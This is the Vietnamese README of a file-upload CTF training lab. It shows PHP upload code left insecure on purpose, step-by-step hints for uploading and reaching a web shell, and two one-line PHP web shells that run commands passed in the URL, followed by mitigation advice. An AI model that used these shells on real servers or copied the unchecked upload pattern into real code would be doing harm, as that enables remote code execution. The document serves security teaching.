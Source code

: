 
# 🛡️ ChronoSoft Internal Upload Portal (CTF Lab - File Upload)

**Môi trường thực hành mô phỏng lỗ hổng File Upload trong ứng dụng web.**  
Đây là một CTF Lab được thiết kế để giúp học viên hiểu rõ và khai thác các lỗi sai phổ biến trong chức năng upload tệp tin.

---

## 📄 Mô tả hệ thống

Trang HTML chính cho phép người dùng tải lên tệp tin nội bộ (giả lập tài liệu nhân sự) qua form đơn giản:

```html
<form method="POST" enctype="multipart/form-data">
    <input type="file" name="file" required />
    <input type="submit" value="Upload Document" />
</form>
```

Mã PHP phía server thực hiện:

```php
$upload_dir = 'upload/';
$upload_file = $upload_dir . basename($_FILES['file']['name']);
move_uploaded_file($_FILES['file']['tmp_name'], $upload_file);
```

---

## ⚠️ Lỗ hổng bảo mật

Chức năng upload này có những điểm yếu nghiêm trọng:

- ❌ Không kiểm tra định dạng (extension) của file
- ❌ Không xác thực MIME type
- ❌ Không lọc tên file nguy hiểm (như `.php`, `.exe`)
- ❌ Không đổi tên file khi lưu (có thể bị ghi đè hoặc dự đoán)
- ❌ Thư mục lưu file có thể truy cập trực tiếp (`upload/`)

📌 Hậu quả: Kẻ tấn công có thể upload một **web shell** (ví dụ: `shell.php`) và truy cập qua trình duyệt để thực thi mã trên server.

---

## 🎯 Mục tiêu của học viên

1. Thử upload file `.php` chứa mã thực thi
2. Truy cập đường dẫn `/upload/[filename]` để kiểm tra thực thi
3. Nếu thành công, thử gửi các lệnh hệ thống (ví dụ: `id`, `ls`, v.v.)
4. Ghi lại kết quả và học cách phòng chống lỗi này

---

## 🚀 Hướng dẫn triển khai

```bash
docker-compose up --build
```

Sau khi chạy, truy cập trình duyệt tại:

🔗 http://localhost:8080

---

## 🧪 Gợi ý khai thác

| Hành động | Gợi ý |
|-----------|-------|
| Upload shell | Dùng file như `shell.php`, `cmd.php`, hoặc script đơn giản |
| Truy cập file | Truy cập `http://localhost:8080/upload/shell.php` |
| Gửi lệnh | Nếu file thực thi, thử truyền lệnh qua GET: `?cmd=id` |

---

## 📦 Một số mã shell cơ bản

```php
<?php system($_GET['cmd']); ?>
```

```php
<?php echo shell_exec($_REQUEST["cmd"]); ?>
```

---

## 📌 Hướng dẫn phòng chống (dành cho giảng viên)

- Chỉ cho phép một số định dạng tệp tin cụ thể (PDF, PNG, DOCX)
- Kiểm tra MIME type, magic bytes
- Đổi tên file khi lưu (sử dụng UUID, hash + timestamp)
- Không cho phép truy cập trực tiếp thư mục lưu trữ
- Cấm thực thi file trong thư mục upload (qua cấu hình `.htaccess` hoặc web server)

---

## 📬 Liên hệ (giả lập)

📧 `security@chronosoft.io`

---

## ⚠️ Cảnh báo

> Đây là môi trường chứa lỗ hổng có chủ đích.  
> Tuyệt đối không triển khai trên môi trường thật.  
> Chỉ sử dụng cho mục đích giáo dục và thử nghiệm trong phạm vi kiểm soát.`
